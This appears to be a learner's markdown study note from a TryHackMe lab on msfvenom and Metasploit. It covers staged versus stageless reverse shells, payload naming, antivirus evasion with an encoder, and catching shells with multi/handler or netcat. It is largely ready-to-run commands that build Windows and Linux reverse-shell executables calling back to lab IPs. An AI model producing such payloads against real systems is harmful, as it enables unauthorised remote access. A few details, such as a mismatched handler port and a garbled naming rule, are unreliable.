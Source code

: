 # MSFVENOM

- OneStop shop for all things payload.
- It is used in lower-level exploit development to generate hexadecimal shellcode when developing something like Buffer Overflow exploit.
- It can also be used to generate payloads in different formats. .exe, .py, .war, .aspx etc., to name a few
- the standard syntax is `msfvenom -p <payload> <options>`
- for example to generate a windows x64 reverse shell in an exe format, we could use
`msfvenom -p windows/x64/shell/reverse_tcp -f exe -o shell.exe LHOST=<host-ip> LPORT=<listen-port>`
LHOST specifies the IP to connect back to
LPORT specifies the listening port on the attackers machine

## staged vs stageless reverse shell payloads

- *Staged* payloads are sent in two parts. The first part is called a Stager. This piece of code executes on the server itself.
- It connects back to a waiting listener
- It relies on the listener to load the real payload, executing directly, and preventing it from touching the disk where it could be caught by anti-virus solutions.
- thus the payload is split into two parts. 
- a small initial stager and then the bulkier reverse shell code which is downloaded when the stager is activated. staged payload requires a special listener usually the *Metasploit multi/handler*.
- staged payloads are hard to use
- modern day anti-virus solutions will also make use of AMSI (Anti-Malware scan interface) to detect the payload as it is loaded into the memory by the stager, making staged payloads less effective than they would have been once in this area.

- stageless payloads are much common, these are what we have been using till now. they are entirely self-contained which when executed returns back a shell to the waiting listener on the attacker's machine.- stageless payloads are easier to use and catch
- they are bulkier and easy for an anti-virus scan to catch 
- they are easy to be detected by an IDS and be thrown off or removed from.

## meterpreter

- this is metasploits own version of full featured shell.
- they are completely stable and it is good to work with them when we are trying to exploit windows targets.
- they have functionality such as file uploads and file downloads.
- if we want to use metasploits post-exploitation tools then we need to use meterpreter shell.
- downside: they are banned from use in certain certification examinations hence you need to learn alternatives.

## payload naming conventions

- the basic naming convention is `<os>/<arch>/<payload>`
- for example:- `linux/x86/shell_reverse_tcp`, this would generate a stageless reverse shell for an x86linux target.
- the exception to these convention is windows 32 bit targets. for these things the arch is not specified. `windows/shell_reverse_tcp`
- for windows 64 bit the arch will be specified. `windows/x64/shell_reverse_tcp`
- stageless payloads are denoted with `_` underscores.
- the staged payload must have been `reverse/shell/payload`.
- this rule also applies to meterpreter payloads. a windows 64 bit staged meterpreter payload would look like this. `windows/x64/meterpreter/reverse_tcp`
- linux 32 bit stageless meterpreter payloads look like `linux/x86/meterpreter_reverse_tcp`
- one of the useful commands is
- `msfvenom --list payloads`

## Sample Questions
- Generate a staged reverse shell for a 64 bit Windows target, in a .exe format using your TryHackMe tun0 IP address and a chosen port.
`msfvenom -p windows/x64/shell/reverse_tcp -f exe -o shell.exe LHOST=10.10.128.123 LPORT=443`

- What command would you use to generate a staged meterpreter reverse shell for a 64bit Linux target, assuming your own IP was 10.10.10.5, and you were listening on port 443? The format for the shell is elf and the output filename should be shell ?
`msfvenom -p linux/x64/meterpreter/reverse_tcp -f elf -o shell LHOST=10.10.10.5 LPORT=443`

- meterpreter reverse shell for a x86 windows machine
`msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=10.18.112.115 LPORT=3333 -f exe -o reverse.exe`

## multi/handler
- launch msfconsole
- use multi/handler
- options
- we need to set three options, PAYLOAD, LHOST, LPORT
- these are all identical options when we are trying to generate shell code with msfvenom
- payload - payload specific to the target
- LHOST/LPORT - is where we receive the shell
- metasploit will not listen on all interfaces like socat and netcat
- it must be told to listen to on a specific surface.
- `set payload <payload>`
- `set LHOST <host>`
- `set LPORT <port>`
- we should be able to start the listener with the command `exploit -j`
- this will metasploit to launch the module, running as a job in the background.
- to start a listener in the background it is `exploit -j`
- to a specific reverse shell session it is `sessions <session_num>`

## examples using msfvenom:-
1.
generate an msfvenom payload with the following command
`msfvenom -p windows/x64/meterpreter/reverse_tcp -f exe -o shell.exe LHOST=10.18.115.112 LPORT=3333`

copy the shell.exe and launch the msfconsole.

```
msfconsole
use multi/handler
options
set payload windows/x64/meterpreter/reverse_tcp
set LHOST 10.18.115.112 
set LPORT 4444
run or exploit -j
sessions <session_number>
```

with msfconsole you can catch a meterpreter shell.

2.

creating a stageless shell is as follows
`msfvenom -p windows/x64/shell_reverse_tcp -f exe -o stageless_shell.exe LHOST=10.18.115.112 LPORT=33`

And can you catch it with netcat. You can catch stageless shells with netcat.
`nc -lnvp 33` and yes can.

3.

How about staged shells ?
creating a staged shell is as follows
`msfvenom -p windows/x64/shell/reverse_tcp -f exe -o staged_shell.exe LHOST=10.118.115.112  LPORT=312`

can you catch it with netcat ?
